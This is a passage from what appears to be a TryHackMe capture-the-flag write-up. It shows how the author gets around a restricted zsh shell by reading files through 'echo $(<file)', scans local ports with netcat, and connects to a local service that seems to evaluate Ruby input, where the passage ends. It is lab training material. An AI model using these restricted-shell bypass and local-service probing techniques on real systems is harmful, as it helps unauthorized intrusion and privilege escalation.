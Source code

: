 It worked!

**However, it's still very restricted:**
```shell
cat user.txt
zsh: permission denied: cat
```

**After fumbling around, I also found that we can use `echo` to read file:**
```shell
echo $(<.hint.txt)
Maybe take a look at local services.
```

**user.txt:**
```shell
echo $(<user.txt)
THM{Redacted}
```

## Privilege Escalation

### noraj to root

**In the `.hint.txt` file, it said:**

> Maybe take a look at local services.

**We can use `netstat` or `ss` to list all listening ports:**
```shell
netstat -tunlp
zsh: permission denied: netstat
ss
zsh: permission denied: ss
```

Hmm...

**Since the target machine has `nc`, we can leverage that to scan all ports:**
```shell
nc -zvnw 1 127.0.0.1 1-65535
(UNKNOWN) [127.0.0.1] 31547 (?) open
(UNKNOWN) [127.0.0.1] 22 (ssh) open
```

- Found 1 open port: `31547`

**In here, we could just `nc` to port `31547`, so we're inside a `nc` session of a `nc` session:**
```shell
nc 127.0.0.1 31547
$ 
```

```ruby
$ echo hello?
undefined method `hello?' for main:Object
```
